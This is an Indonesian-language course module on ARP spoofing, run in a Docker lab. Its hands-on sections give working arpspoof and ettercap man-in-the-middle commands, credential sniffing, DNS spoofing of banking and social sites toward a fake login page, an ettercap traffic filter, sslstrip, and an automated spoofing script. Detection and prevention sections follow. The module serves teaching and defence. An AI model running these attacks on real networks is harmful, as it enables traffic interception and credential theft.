


# 🔐 Pertemuan 3: L2 Security - ARP Spoofing

## Daftar Isi
1. [Apa itu ARP?](#1-apa-itu-arp)
2. [ARP Spoofing / ARP Poisoning](#2-arp-spoofing--arp-poisoning)
3. [Hands-On: Setup Lab untuk ARP Spoofing](#3-hands-on-setup-lab-untuk-arp-spoofing)
4. [Hands-On: ARP Spoofing dengan arpspoof (dsniff)](#4-hands-on-arp-spoofing-dengan-arpspoof-dsniff)
5. [Hands-On: ARP Spoofing dengan Ettercap](#5-hands-on-arp-spoofing-dengan-ettercap)
6. [Hands-On: DNS Spoofing](#6-hands-on-dns-spoofing)
7. [Deteksi dan Pencegahan](#7-deteksi-dan-pencegahan)
8. [Latihan Mandiri](#8-latihan-mandiri)

---

## 1. Apa itu ARP?

### Definisi Sederhana

**ARP (Address Resolution Protocol)** adalah protokol yang digunakan untuk memetakan alamat IP (layer 3) ke alamat MAC (layer 2) dalam jaringan lokal.

### Analogi Sehari-hari

Bayangkan Anda ingin mengirim surat di kompleks perumahan:
- **IP Address** = Nama orang (siapa yang dituju)
- **MAC Address** = Alamat rumah (dimana orang itu tinggal)
- **ARP** = Buku alamat yang menghubungkan nama orang dengan alamat rumahnya

### Cara Kerja ARP Normal



### ARP Table

Setiap komputer menyimpan cache ARP:

```bash
# Lihat ARP table di Windows
arp -a

# Lihat ARP table di Linux/Mac
ip neigh show
# atau
arp -n

Contoh output:
192.168.1.1 dev eth0 lladdr 00:11:22:33:44:55 REACHABLE
192.168.1.20 dev eth0 lladdr AA:BB:CC:DD:EE:FF STALE
```

---

## 2. ARP Spoofing / ARP Poisoning

### Apa itu ARP Spoofing?

**ARP Spoofing** adalah teknik di mana penyerang mengirimkan pesan ARP palsu ke jaringan, sehingga memetakan alamat IP korban ke alamat MAC penyerang.

### Mengapa ARP Rentan?

- **Tidak ada autentikasi**: ARP tidak memverifikasi apakah pesan itu asli
- **Stateless**: Setiap perangkat menerima ARP reply meskipun tidak meminta
- **Cache poisoning**: Perangkat akan memperbarui ARP table-nya dengan informasi baru

### Skenario Serangan



### Apa yang Bisa Dilakukan Penyerang?

1. **Man-in-the-Middle (MITM)**: Menyadap semua komunikasi
2. **Session Hijacking**: Membajak session yang sudah ada
3. **Denial of Service**: Memutus koneksi korban
4. **Password Sniffing**: Menangkap password yang dikirim

---

## 3. Hands-On: Setup Lab untuk ARP Spoofing

### 3.1 Topologi Lab

Kita akan menggunakan 3 container:
- **kali-attacker** (penyerang) - IP: 192.168.1.100
- **ubuntu-target** (korban) - IP: 192.168.1.10
- **router** (gateway) - IP: 192.168.1.1

### 3.2 Masuk ke Container

```bash
# Dari folder netsec-lab
cd ~/netsec-lab

# Masuk ke container attacker
docker-compose exec kali-attacker bash
```

### 3.3 Install Tools

```bash
# Update repositori
apt update

# Install dsniff (berisi arpspoof)
apt install -y dsniff

# Install ettercap
apt install -y ettercap-graphical

# Install net-tools untuk ifconfig
apt install -y net-tools

# Install tcpdump untuk monitoring
apt install -y tcpdump

# Install nano untuk edit file
apt install -y nano
```

### 3.4 Cek IP Address

```bash
# Di container attacker
ip addr show eth0
# Atau
ifconfig eth0

# Pastikan IP: 192.168.1.100
```

### 3.5 Aktifkan IP Forwarding (Penting!)

```bash
# Agar attacker bisa meneruskan paket (seperti router)
echo 1 > /proc/sys/net/ipv4/ip_forward

# Verifikasi
cat /proc/sys/net/ipv4/ip_forward
# Output: 1
```

### 3.6 Cek ARP Table Awal

```bash
# Lihat ARP table sebelum serangan
arp -n
```

### 3.7 Buka Terminal untuk Target

Buka terminal baru:

```bash
# Terminal 2 - Masuk ke ubuntu-target
cd ~/netsec-lab
docker-compose exec ubuntu-target bash

# Di container target
apt update
apt install -y net-tools tcpdump curl

# Cek IP
ip addr show eth0
# Seharusnya 192.168.1.10
```

### 3.8 Buka Terminal untuk Router/Gateway

Buka terminal baru:

```bash
# Terminal 3 - Masuk ke router
cd ~/netsec-lab
docker-compose exec router bash

# Di container router
apt update
apt install -y net-tools tcpdump

# Cek IP
ip addr show eth0
# Seharusnya 192.168.1.1
```

---

## 4. Hands-On: ARP Spoofing dengan arpspoof (dsniff)

### 4.1 Tanpa ARP Spoofing - Kondisi Normal

**Di target (192.168.1.10)**:
```bash
# Pantau koneksi ke internet
ping -c 4 8.8.8.8
# Seharusnya berhasil

# Cek ARP table
arp -n | grep 192.168.1.1
# Output: 192.168.1.1 ether 00:11:22:33:44:55 (MAC router asli)
```

### 4.2 Mulai ARP Spoofing - 2 Arah (Full Duplex)

**Di attacker (192.168.1.100)**:

```bash
# Terminal attacker - jalankan di background atau terminal terpisah

# Terminal 1 - Spoof target (bohongi target bahwa attacker adalah gateway)
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1

# Terminal 2 - Spoof gateway (bohongi gateway bahwa attacker adalah target)
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
```

**Penjelasan perintah**:
- `-i eth0`: Interface yang digunakan
- `-t 192.168.1.10`: Target korban
- `192.168.1.1`: Host yang ingin di-spoof (gateway)

### 4.3 Verifikasi ARP Spoofing Berhasil

**Di target (192.168.1.10)**:
```bash
# Cek ARP table lagi
arp -n | grep 192.168.1.1

# MAC address gateway sekarang seharusnya berubah menjadi MAC attacker
# Contoh: 192.168.1.1 ether 02:42:c0:a8:01:64 (MAC attacker)
```

**Di router/gateway (192.168.1.1)**:
```bash
# Cek ARP table di gateway
arp -n | grep 192.168.1.10

# MAC address target sekarang seharusnya MAC attacker
```

### 4.4 Sniffing Traffic dengan tcpdump

**Di attacker**:
```bash
# Buka terminal baru di attacker
# Tangkap semua traffic yang lewat
tcpdump -i eth0 -n -v

# Atau tangkap traffic HTTP saja
tcpdump -i eth0 -n port 80 -A

# Atau simpan ke file untuk analisis
tcpdump -i eth0 -w capture.pcap
```

### 4.5 Simulasi Login HTTP

**Di target** (terminal terpisah):
```bash
# Simulasi login ke website (gunakan curl)
curl -X POST http://example.com/login \
  -d "username=alice&password=rahasia123"

# Atau buat request HTTP sederhana
echo "GET / HTTP/1.0" | nc example.com 80
```

**Di attacker**:
```bash
# Lihat hasil tangkapan di tcpdump
# Akan terlihat username dan password dalam bentuk plain text
```

### 4.6 Menghentikan Serangan

```bash
# Di terminal attacker yang menjalankan arpspoof
Ctrl+C

# Kembalikan ARP table ke normal (opsional)
# Atau biarkan expire sendiri setelah beberapa menit

# Matikan IP forwarding
echo 0 > /proc/sys/net/ipv4/ip_forward
```

---

## 5. Hands-On: ARP Spoofing dengan Ettercap

### 5.1 Pengenalan Ettercap

**Ettercap** adalah tools komprehensif untuk MITM attack dengan fitur:
- ARP poisoning
- DNS spoofing
- Filter dan plugin
- Antarmuka teks dan grafis

### 5.2 Mode Text-Based Ettercap

```bash
# Jalankan ettercap dalam mode teks (TUI)
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1//

# Penjelasan:
# -T : Text mode
# -i eth0 : Interface
# -M arp:remote : ARP poisoning mode
# Target: /IP korban// /IP gateway//

# Setelah masuk:
# - Tekan 'h' untuk help
# - Tekan 'q' untuk quit
# - Otomatis akan menampilkan traffic yang lewat
```

### 5.3 Mode GUI Ettercap

Jika ingin menggunakan GUI (perlu X11 forwarding):

```bash
# Install X11 di Windows/Mac/Linux
# Di WSL/Windows: pastikan XServer (VcXsrv/Xming) berjalan

# Di Kali container dengan X11 forwarding
ettercap -G
```

### 5.4 Unified Sniffing dengan Ettercap

```bash
# Jalankan ettercap dengan unified sniffing
ettercap -T -i eth0 -M arp:remote // //

# Ini akan melakukan ARP spoof pada semua host di jaringan
# HATI-HATI: ini akan membanjiri jaringan
```

### 5.5 Melihat Hasil Sniffing di Ettercap

```bash
# Setelah menjalankan ettercap, Anda akan melihat:
# - Semua koneksi yang lewat
# - Password yang dikirim (HTTP, FTP, Telnet)
# - URL yang dikunjungi

# Contoh output:
HTTP : 192.168.1.10:54321 -> 93.184.216.34:80
GET /index.html HTTP/1.1
Host: example.com
```

### 5.6 Menyimpan Hasil Capture

```bash
# Jalankan ettercap dengan output ke file
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1// -w capture.ettercap

# Baca hasil capture nanti
ettercap -T -r capture.ettercap
```

---

## 6. Hands-On: DNS Spoofing

### 6.1 Apa itu DNS Spoofing?

DNS Spoofing mengarahkan korban ke website palsu meskipun mereka mengetik alamat website yang benar.

### 6.2 Setup DNS Spoofing dengan Ettercap

**Di attacker**:

```bash
# 1. Buat file konfigurasi DNS spoofing
cat > /tmp/dns.spoof << EOF
# Format: domain IP_palsu
example.com 192.168.1.100
facebook.com 192.168.1.100
google.com 192.168.1.100
bank.com 192.168.1.100
EOF

# 2. Jalankan web server palsu di attacker
python3 -m http.server 80 &
# Atau buat halaman phishing sederhana
cat > index.html << EOF
<!DOCTYPE html>
<html>
<head><title>Website Palsu</title></head>
<body>
<h1>Website Palsu</h1>
<p>Ini adalah website palsu untuk demonstrasi.</p>
<form>
Username: <input type="text"><br>
Password: <input type="password"><br>
<input type="submit" value="Login">
</form>
</body>
</html>
EOF

# 3. Jalankan ettercap dengan plugin DNS spoof
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1// -P dns_spoof

# Di menu ettercap, setelah plugin dimuat:
# Tekan 'p' untuk mengaktifkan plugin dns_spoof
# Setelah itu, semua DNS request akan diarahkan ke IP kita
```

### 6.3 Konfigurasi DNS Spoof di Ettercap (Alternatif)

```bash
# Edit file konfigurasi ettercap
nano /etc/ettercap/etter.dns

# Tambahkan di akhir file:
example.com A 192.168.1.100
*.example.com A 192.168.1.100
facebook.com A 192.168.1.100
bank.com A 192.168.1.100

# Jalankan dengan dns_spoof
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1// -P dns_spoof
```

### 6.4 Verifikasi dari Target

**Di target (192.168.1.10)**:
```bash
# Coba ping domain yang di-spoof
ping -c 2 example.com
# Seharusnya merespon dari IP 192.168.1.100 (attacker)

# Cek dengan nslookup
nslookup example.com
# Server: 192.168.1.1
# Address: 192.168.1.1#53
# 
# Name: example.com
# Address: 192.168.1.100 (INI PALSU!)

# Buka dengan curl
curl http://example.com
# Akan mendapatkan halaman palsu dari attacker
```

---

## 7. Deteksi dan Pencegahan

### 7.1 Deteksi ARP Spoofing dengan ARP Watch

**Di target atau admin**:

```bash
# Install arpwatch
apt install -y arpwatch

# Jalankan monitoring
arpwatch -i eth0

# Lihat log
tail -f /var/log/syslog | grep arpwatch
# Akan mencatat perubahan MAC address yang mencurigakan
```

### 7.2 Deteksi Manual dengan ARP Scanning

```bash
# Script sederhana untuk deteksi ARP spoofing
cat > detect_arp_spoof.sh << 'EOF'
#!/bin/bash

# Dapatkan MAC gateway sebenarnya (dari konfigurasi statis)
REAL_GW_MAC="00:11:22:33:44:55"  # Ganti dengan MAC asli gateway

while true; do
    # Cek MAC gateway dari ARP table
    CURRENT_MAC=$(arp -n | grep 192.168.1.1 | awk '{print $3}')
    
    if [ "$CURRENT_MAC" != "$REAL_GW_MAC" ]; then
        echo "$(date): PERINGATAN! ARP Spoofing terdeteksi!"
        echo "Gateway MAC seharusnya: $REAL_GW_MAC"
        echo "Gateway MAC sekarang: $CURRENT_MAC"
    fi
    
    sleep 5
done
EOF

chmod +x detect_arp_spoof.sh
./detect_arp_spoof.sh
```

### 7.3 Deteksi dengan tcpdump

```bash
# Tangkap ARP reply yang tidak wajar (terlalu banyak)
tcpdump -i eth0 arp -n

# ARP reply yang mencurigakan:
# - Banyak ARP reply tanpa request
# - MAC address yang sama mengklaim banyak IP
# - MAC address berubah-ubah untuk IP yang sama
```

### 7.4 Pencegahan dengan ARP Static Entry

**Di target**:
```bash
# Tambahkan static ARP entry untuk gateway
arp -s 192.168.1.1 00:11:22:33:44:55

# Cek ARP table
arp -n | grep 192.168.1.1
# Akan ada flag PERMANENT atau STATIC

# Dengan static entry, ARP spoofing tidak akan berpengaruh
# Karena sistem tidak akan memperbarui ARP cache untuk IP tersebut
```

### 7.5 Pencegahan dengan Port Security (di Switch)

**Konfigurasi di switch managed** (simulasi):
```bash
# Di switch Cisco
interface eth0/1
 switchport port-security
 switchport port-security maximum 1
 switchport port-security mac-address sticky
 switchport port-security violation shutdown

# Ini akan mematikan port jika ada lebih dari 1 MAC address
```

### 7.6 Pencegahan dengan DHCP Snooping (di Switch)

```bash
# Di switch Cisco
ip dhcp snooping
ip dhcp snooping vlan 1
interface eth0/1
 ip dhcp snooping trust
```

### 7.7 Pencegahan dengan Enkripsi

**Solusi terbaik**: Gunakan enkripsi end-to-end

```bash
# HTTPS melindungi dari sniffing meskipun ARP spoofing berhasil
# SSH, VPN, TLS melindungi data
```

---

## 8. Latihan Mandiri

### Latihan 1: ARP Spoofing Sederhana

```bash
# Tujuan: Memutus koneksi korban (DoS)

# Di attacker, lakukan ARP spoofing satu arah saja
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1

# Jangan jalankan arpspoof untuk gateway
# Jangan aktifkan IP forwarding

# Di target, coba ping ke internet
ping 8.8.8.8
# Seharusnya tidak bisa (Request timeout)
```

### Latihan 2: Sniffing FTP Login

```bash
# Di target, install FTP server sederhana
apt install -y vsftpd
service vsftpd start

# Login FTP dari target ke dirinya sendiri (atau ke server lain)
ftp localhost
# Login dengan username/password

# Di attacker, jalankan tcpdump atau ettercap
tcpdump -i eth0 port 21 -A
# Akan terlihat username dan password dalam plain text
```

### Latihan 3: Script ARP Spoofing Otomatis

```bash
cat > auto_arpspoof.sh << 'EOF'
#!/bin/bash
# Auto ARP Spoofing dengan cleanup

TARGET="192.168.1.10"
GATEWAY="192.168.1.1"
INTERFACE="eth0"

echo "[+] Mengaktifkan IP forwarding"
echo 1 > /proc/sys/net/ipv4/ip_forward

echo "[+] Memulai ARP spoofing"
arpspoof -i $INTERFACE -t $TARGET $GATEWAY > /dev/null 2>&1 &
PID1=$!
arpspoof -i $INTERFACE -t $GATEWAY $TARGET > /dev/null 2>&1 &
PID2=$!

echo "[+] Serangan berjalan. PID: $PID1, $PID2"
echo "[+] Tekan Enter untuk berhenti..."
read

echo "[+] Menghentikan serangan..."
kill $PID1 $PID2

echo "[+] Membersihkan ARP cache..."
arp -d $TARGET 2>/dev/null
arp -d $GATEWAY 2>/dev/null

echo "[+] Mematikan IP forwarding"
echo 0 > /proc/sys/net/ipv4/ip_forward

echo "[+] Selesai"
EOF

chmod +x auto_arpspoof.sh
./auto_arpspoof.sh
```

### Latihan 4: Ettercap Filter

```bash
# Buat filter untuk mengganti konten website
cat > replace.filter << EOF
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
        replace("Accept-Encoding", "Accept-Rubbish!");
        msg("ZIP compressed files disabled\n");
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<title>")) {
        replace("<title>", "<title>[SPOOFED] ");
        msg("Title spoofed\n");
    }
}
EOF

# Compile filter
etterfilter replace.filter -o replace.ef

# Jalankan dengan filter
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1// -F replace.ef
```

### Latihan 5: HTTPS Stripping (SSL Strip)

```bash
# Install sslstrip
apt install -y sslstrip

# Setup iptables untuk redirect HTTP ke sslstrip
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

# Jalankan ARP spoofing di background
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1 &
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10 &

# Jalankan sslstrip
sslstrip -l 8080 -w sslstrip.log

# Korban akan diarahkan ke HTTP meskipun mengetik HTTPS
# Lihat log
tail -f sslstrip.log
```

### Latihan 6: Deteksi dengan Python

```bash
cat > arp_detector.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import time
from collections import defaultdict

def get_arp_table():
    result = subprocess.run(['arp', '-n'], capture_output=True, text=True)
    lines = result.stdout.split('\n')[1:-1]
    
    arp_table = {}
    for line in lines:
        parts = line.split()
        if len(parts) >= 3:
            ip = parts[0]
            mac = parts[2]
            arp_table[ip] = mac
    
    return arp_table

def detect_arp_spoof():
    print("Monitoring ARP table...")
    history = defaultdict(list)
    
    try:
        while True:
            current = get_arp_table()
            
            for ip, mac in current.items():
                if ip != "192.168.1.1":  # Skip gateway
                    continue
                    
                if mac not in history[ip]:
                    history[ip].append(mac)
                    print(f"[!] Perubahan terdeteksi untuk {ip}")
                    print(f"    MAC baru: {mac}")
                    print(f"    Riwayat: {history[ip]}")
                    
                    if len(history[ip]) > 1:
                        print(f"[ALERT] ARP Spoofing terdeteksi untuk {ip}!")
            
            time.sleep(3)
            
    except KeyboardInterrupt:
        print("\nMonitoring dihentikan")

if __name__ == "__main__":
    detect_arp_spoof()
EOF

chmod +x arp_detector.py
python3 arp_detector.py
```

### Latihan 7: Cleanup Script

```bash
cat > cleanup_arp.sh << 'EOF'
#!/bin/bash
# Membersihkan semua efek ARP spoofing

echo "[+] Mematikan IP forwarding"
echo 0 > /proc/sys/net/ipv4/ip_forward

echo "[+] Membunuh proses arpspoof"
killall arpspoof 2>/dev/null

echo "[+] Membersihkan ARP cache semua host"
for ip in 192.168.1.{1,10,100}; do
    arp -d $ip 2>/dev/null
done

echo "[+] Membersihkan aturan iptables"
iptables -t nat -F

echo "[+] Menghapus file temporary"
rm -f *.pcap *.log *.ef

echo "[+] Selesai. Tunggu 30 detik untuk ARP normal kembali."
EOF

chmod +x cleanup_arp.sh
./cleanup_arp.sh
```

---

## Ringkasan Perintah Penting

| Fungsi | Perintah |
|--------|----------|
| Lihat ARP table | `arp -n` atau `ip neigh show` |
| ARP spoof 1 arah | `arpspoof -i eth0 -t 192.168.1.10 192.168.1.1` |
| ARP spoof 2 arah | Jalankan 2 perintah arpspoof (target dan gateway) |
| Aktifkan forwarding | `echo 1 > /proc/sys/net/ipv4/ip_forward` |
| Sniffing dengan tcpdump | `tcpdump -i eth0 -n -A` |
| Ettercap text mode | `ettercap -T -i eth0 -M arp:remote /target// /gateway//` |
| Ettercap dengan plugin | `ettercap -T -i eth0 -M arp:remote // // -P dns_spoof` |
| Static ARP | `arp -s 192.168.1.1 00:11:22:33:44:55` |
| DNS spoof file | `/etc/ettercap/etter.dns` |
| SSL Strip | `sslstrip -l 8080` |
| Iptables redirect | `iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080` |

---

## ⚠️ Catatan Penting

1. **Legalitas**: Praktik ini hanya untuk pembelajaran di lab sendiri. ARP spoofing di jaringan orang lain adalah ILEGAL.

2. **Deteksi**: ARP spoofing mudah dideteksi dengan tools monitoring.

3. **Pencegahan**: Gunakan enkripsi (HTTPS, SSH, VPN) untuk melindungi data meskipun terjadi ARP spoofing.

4. **Edukasi**: Materi ini untuk memahami kelemahan protokol dan cara melindunginya.

5. **Bersih-bersih**: Selalu jalankan cleanup script setelah selesai praktik untuk mengembalikan jaringan ke kondisi normal.
